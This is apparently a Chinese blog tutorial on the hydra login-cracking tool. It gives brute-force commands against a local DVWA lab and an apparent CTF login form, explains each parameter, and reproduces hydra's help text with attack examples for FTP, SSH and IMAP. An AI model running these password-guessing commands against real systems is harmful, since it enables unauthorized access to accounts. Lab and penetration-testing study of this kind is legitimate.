 ```yaml
---
layout:     post
title:      hydra使用介绍
subtitle:   
date:       2020-01-27
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - brute force
---
```


# 简介

hydra 是一个网络帐号破解工具，支持多种协议。其作者是van Hauser,David Maciejak与其共同维护.<br>
hydra在所有支持GCC的平台能很好的编译，包括Linux,所有版本的BSD,Mac OS, Solaris等.<br>
支持的协议:<br>
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET,<br>
HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, <br>
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, <br>
MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, <br>
PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP,<br> 
SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, <br>
Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.<br>

github: [hydra](https://github.com/vanhauser-thc/thc-hydra)

## 例1. GET 方式
hydra 使用的具体参数文本如下:
```
hydra -V -l admin -o log -P darkweb2017-top10000.txt 127.0.0.1 http-get-form
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username
and/or password incorrect.:H=Cookie: security=low; PHPSESSID=llfvb69s8cv57g5c14sfrtr81c"
```

### 参数解析:(参数解析后贴一张hydra详细的操作表)

- `-V` 详细模式,显示登录每次尝试的信息
- `-l` 指定特定的用户名(即已经知道了用户名),这里已经知道用户名是 admin
- `-o` 将信息输出到指定的文件,这里是log文件,(不指定也行)
- `-P` (大写 P)指定暴力破解的密码的文件来源,这里是从密码文件即字典 darkweb2017-top10000.txt 里面查找密码(所以好的字典很重要, [爆破字典 SecLists](https://github.com/danielmiessler/SecLists))

- `127.0.0.1` IP 地址
- `http-get-form` 使用的是 http 的 `GET` 方式, 使用什么方式具体要看登录的程序使用的什么方式, 比如远程登录使用的是 ssh, <br>
那么怎么指定 是 `GET` 方式还是 `POST` 方式呢?可以用 `Burpsuite` 截获一条登录信息来查看.
- `/DVWA/vulnerabilities/brute/` 具体的目录
- **`:`** 用冒号 ":" 来分割信息
- `username=^USER^&password=^PASS^&Login=Login` 信息填写用 burpsuite 截获得到
- `Username and/or password incorrect` 这个是登录失败的提示, 可以写成 `F=Username and/or password incorrect`
- `H=Cookie: security=low; PHPSESSID=llfvb69s8cv57g5c14sfrtr81c` 这里的 H 应该代表的是头部信息

## 列2. POST 方式

```
hydra -L names.txt -p a 35.227.24.107 http-post-form "/4229312c64/login:username=^USER^&password=^PASS^
:F=Invalid username:H=Cookie: session=eyJjYXJ0IjpbXX0.ELcBLw.ZnoGnldeUdY-gST8OKErk_lkbs8"
```
- `-L` 指定的枚举用户名的文件来源, 例1 `-l` 指定用户名为 `admin`,是在已知用户名的情况下才用 `-l`
- `-p` (小写的 p)指定密码为 `a` <br>
其他参数例1已说明.

#  hydra 使用手册详解

终端输入
```
 hydra -h
```

便可查看
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]
Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -q        do not print messages about connection errors
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)
Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
These services were not compiled in: afp ncp oracle sapr3.
Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```


